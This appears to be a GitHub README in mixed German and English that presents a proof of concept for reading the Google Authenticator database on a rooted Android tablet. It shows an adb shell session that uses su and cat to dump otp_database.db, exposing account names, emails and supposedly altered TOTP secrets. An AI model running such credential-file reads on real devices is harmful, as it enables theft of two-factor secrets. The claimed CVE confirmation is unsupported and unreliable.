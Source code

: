 # Google_Atuhenticator_Gap
Google Authenticator Gap, Database read via Cat in Cleartext


POC with rooted Android SM-T510 and Google Authenticator App and Android Platform Tools

So hier meine eigene Sicherheits Erkenntnis lookie lookie
so hier ist es gesagt wurden, also Fehlende Sicherheit, beim Google Authentikator vorhanden mit rootrechten kann die Database im Cleartext ausgelesen werden, its Confirmed, by me.
    5 Min.
    Antworten
Steven Schlöffel
Full Text is sended to BSI by Me
    5 Min.
    Antworten
Steven Schlöffel
so hier mal der verfälschte Log, also rück ja nicht meine Originalen raus, also die Cleartext angaben wurden von mir unbrauchbar gemacht, zur Persönlichen Sicherheit meiner seits aber der Rest ist Original in 5min abgehandelt, Google CVE is confirmed, but whats the Number?
    1 Min.
    Antworten
Steven Schlöffel
Microsoft Windows [Version 10.0.26100.3624]
(c) Microsoft Corporation. Alle Rechte vorbehalten.
C:\Users\wg-23>adb devices
* daemon not running; starting now at tcp:5037
* daemon started successfully
List of devices attached
52003bdc4df267bb device
C:\Users\wg-23>adb shell
tdgsi_a64_ab:/ $ su
tdgsi_a64_ab:/ # ls /data/data/com.google.android.apps.authenticator2/databases/
com.google.android.datatransport.events com.google.android.datatransport.events-journal databases
tdgsi_a64_ab:/ # cd /data/data/com.google.android.apps.authenticator2/databases/
tdgsi_a64_ab:/data/data/com.google.android.apps.authenticator2/databases # ls
com.google.android.datatransport.events com.google.android.datatransport.events-journal databases
tdgsi_a64_ab:/data/data/com.google.android.apps.authenticator2/databases # ls databases
databases
s com.google.android.datatransport.events-journal <
com.google.android.datatransport.events-journal
tdgsi_a64_ab:/data/data/com.google.android.apps.authenticator2/databases # ls com.google.android.datatransport.events
com.google.android.datatransport.events
tdgsi_a64_ab:/data/data/com.google.android.apps.authenticator2/databases # cd ..
tdgsi_a64_ab:/data/data/com.google.android.apps.authenticator2 # ls
cache code_cache databases files no_backup shared_prefs
tdgsi_a64_ab:/data/data/com.google.android.apps.authenticator2 # ls files
103795117 DefaultAccountData.pb database_migration_proto_data_store.pb phenotype
AccountData.pb accounts first_time_consent.pb phenotype_storage_info
AccountSyncData.pb androidatgoogle_privacy how_it_works_proto_data_store.pb tiktok
tdgsi_a64_ab:/data/data/com.google.android.apps.authenticator2 # cd files
tdgsi_a64_ab:/data/data/com.google.android.apps.authenticator2/files # ls accounts
1 2
s accounts\1 <
ls: accounts1: No such file or directory
s accounts\2 <
ls: accounts2: No such file or directory
s accounts/2 <
otp_database.db
s accounts/2/otp_database.db <
accounts/2/otp_database.db
tdgsi_a64_ab:/data/data/com.google.android.apps.authenticator2/files # cat accounts/2/otp_database.db
�H�Hl�!�tableotp_tableotp_tableCREATE TABLE otp_table(ordering INTEGER PRIMARY KEY, unique_id TEXT UNIQUE NOT NULL, name TEXT NOT NULL, issuer TEXT, secret TEXT, otp_type TEXT, counter INTEGER, timestamp INTEGER, is_deleted INTEGER, algorithm_deleted TEXT NOT NULL, digits_deleted INTEGER)1Eindexsqlite_autoindex_otp_table_1otp_tablW--ctableandroid_metadataand��de_DEtadataCREATE TABLE android_metadata (locale TEXT)
at accounts/1/otp_database.db <
�H�Hl�!�tableotp_tableotp_tableCREATE TABLE otp_table(ordering INTEGER PRIMARY KEY, unique_id TEXT UNIQUE NOT NULL, name TEXT NOT NULL, issuer TEXT, secret TEXT, otp_type TEXT, counter INTEGER, timestamp INTEGER, is_deleted INTEGER, algorithm_deleted TEXT NOT NULL, digits_deleted INTEGER)1Eindexsqlite_autoindex_otp_table_1otp_tablW--ctableandroid_metadataand��de_DEtadataCREATE TABLE android_metadata (locale TEXT)
�x�3
3�4f46851739457540000308950174IONOSlwU9YkU1nqQvT4NQJXk2v00000jD440+4arrwLTVqAra6iK5sC2cWiGnq3AXziitht12ka36M4cP
Ztwz
3%�6ea3c21700008035560systemxx23xxFacebookKxHOcp2iC22lGMp00000FEuw7mY3oD3qL4f5tYV7hLMaBRkOE7YuCsNgL/2BC2Vowy/FnugOG8q2
lqGX
3!60048d1000084303127Systemx23xGitHub/MnLeNSQ0BwDcOPd8rPOj+0000hCtin9EtHPpumD1ZUb7qFGMxlZ9TV49bg=
totp��7�
3A�ae149d1000068135011stevenschloeffel@gmail.comGooglefv9W+oXJrA0000F+k8AJCAJCDmaApWrtn7waiLF3j/aqRt6KzyWjWw7zPZhWvcyMSnZ2fxlvYPcE
uEyr
3-�41b0881000067899751system23@HiDriveIONOS94NM270000mfzVqTUSDXF7+m6bYqJE6C6W8f/RJhLRJ3RdOeGK3SRW3F6QbjLHW72GW75YzMG6UL
sqw4
3#!6f9c391000069666298 stevenx23xXDA ForumsmQjLrwuvsauJ1z0000fVxYTmVCESU2aheDQ/xIejHUNDLE1Xs2XArc8tBUA=
totp�p�FHmacSHA1
q�q����34f400003945754571236ea3c21728768035560360048d17030000031273ae149d1728768135011341b08817287678997513 6f9c391000069666298tdgsi_a64_ab:/data/data/com.google.android.apps.authenticator2/files #
